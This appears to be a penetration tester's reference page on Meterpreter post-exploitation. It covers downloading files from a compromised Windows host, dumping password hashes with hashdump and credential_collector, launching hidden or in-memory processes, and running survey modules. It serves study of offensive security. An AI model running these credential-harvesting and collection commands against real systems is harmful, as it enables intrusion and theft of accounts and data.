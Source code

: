 ### File collect with meterpreter

* `download` and `upload` commands
* Ensure you are escaping the windows ""
* Example:

```
download C:\\Users\\Administrator\\Desktop\\secret.txt
```

### Harvest Credentials&#x20;

* One way to try and harvest come credentials is with the hashdump module&#x20;

```
run post/windows/gather/hashdump
```

* The output of each line is in the following format: `Username:SID:LM hash:NTLM hash:::`
* Note that the [LM](https://en.wikipedia.org/wiki/LAN\_Manager) hash `aad3b435b51404eeaad3b435b51404ee` corresponds to an empty password as well as the [NTLM](https://en.wikipedia.org/wiki/NT\_LAN\_Manager) hash `31d6cfe0d16ae931b73c59d7e0c089c0`.
* another method that can yeild more credentials (especially on the domain controller) is:

```
run post/windows/gather/credentials/credential_collector 
```

### Execute a program <a href="#executeaprogram" id="executeaprogram"></a>

* The `execute` command allows us to start remote processes&#x20;
* `execute` flags
* **-H** Create the process hidden from view
* **-a** Arguments to pass to the command
* **-i** Interact with the process after creating it
* **-m** Execute from memory
* **-t** Execute process with currently impersonated thread token
* **-s** Execute process in a given session as the session user
* Regarding the last option `-s`, we can find out the available sessions by using the `enumdesktops`-command. The following example does that and then executes _calc.exe_ on session 1:

```
enumdesktops 
Desktops
--------
    Session  Station Name
    1        WinSta0 Default
    1        WinSta0 Winlogon
meterpreter> execute -s 1 -f calc.exe
```

### Post Modules for Windows Survey

```
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/checkvm 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/credentials/credential_collector 
**ENSURE SYSTEM before running
-----------------------------------------------------------------------
**ENSURE you migrate to a user process before running dumplinks**
meterpreter > run post/windows/manage/migrate 
meterpreter > run post/windows/gather/dumplinks 
-----------------------------------------------------------------------
meterpreter > run post/windows/gather/enum_applications 
-----------------------------------------------------------------------
```